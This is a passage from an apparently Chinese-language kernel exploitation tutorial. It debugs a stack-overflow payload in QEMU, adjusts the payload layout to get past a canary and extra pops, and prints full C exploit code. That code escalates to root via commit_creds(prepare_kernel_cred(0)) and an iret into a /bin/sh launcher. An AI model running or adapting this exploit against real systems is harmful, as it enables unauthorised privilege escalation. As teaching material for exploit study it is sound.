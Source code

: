 [![](./img/85848/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t013d9749f53c5996ee.png)

直接对这个平衡栈的指令下断，然后c，qemu里再次跑一下exploit程序。

[![](./img/85848/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t017de636699d1b9b3b.png)

这个时候查看栈顶：

[![](./img/85848/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01f8cf6f69f141dbb7.png)

我们的payload是在栈中的，看看执行完了add指令之后的情况：

[![](./img/85848/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t013dbd1de02eef0534.png)

随着箭头指向，我们可以看到，在执行了三条pop指令后，我们的payload地址会被弹到esi中去，那么后面ret返回的时候，就直接返回到0xc114396c这个地址去了，所以就没有ret到我们的payload去。

**3. 解决方案**

原因已经找到了，下面说下解决方案，其实也很简单，他有pop，你在后面添加junk字节就好了~

大概把payload结构调整成：

```
junk + CANARY + ebp + pl_addr + pl_addr + pl_addr
```

这样的话，总会ret到我们用来提权的代码中去的~

**2. 最终的exploit如下：**



```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stdint.h&gt;
struct trap_frame{
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));
void launch_shell(void) 
{ 
    execl("/bin/sh", "sh", NULL);
}
struct trap_frame tf;
void prepare_tf(void) 
{ 
    asm("pushl %cs; popl tf+4;"
        "pushfl; popl tf+8;"
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &amp;launch_shell;
    tf.esp -= 1024;
}
#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc1067fc0;
void (*commit_creds)(void*) KERNCALL = (void*) 0xc1067e20;
void payload(void){
    //payload here    
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf,%esp;"
       "iret;");
}
```